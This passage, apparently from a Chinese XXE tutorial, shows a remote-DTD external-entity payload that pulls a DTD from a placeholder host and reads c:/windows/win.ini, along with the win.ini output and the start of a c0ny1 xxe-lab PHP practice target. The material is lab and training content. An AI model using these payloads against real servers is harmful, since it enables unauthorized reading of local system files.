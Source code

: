 `; for 16-bit app support [fonts] [extensions] [mci extensions] [files] [Mail] MAPI=1`

  
  

## 远程调用DTD

  

在直接利用的基础上修改

```xml

<?xml version="1.0"?>

<!DOCTYPE a [

  <!ENTITY b SYSTEM "http://xxxx/xxx.dtd">

]>

<c>&b;</c>

```

  

xxx.dtd中写：

```dtd

<!ENTITY b SYSTEM "file:///c:/windows/win.ini" >

```

  
  

效果same

  

<hr>

  

## xxe-lab test

  

在进行next level前，来做一个简单的靶场xxe lab

  

做的php版本（大差不差）

  

```php

//doLogin.php

<?php

/**

* autor: c0ny1

* date: 2018-2-7

*/

  

$USERNAME = 'admin'; //账号

```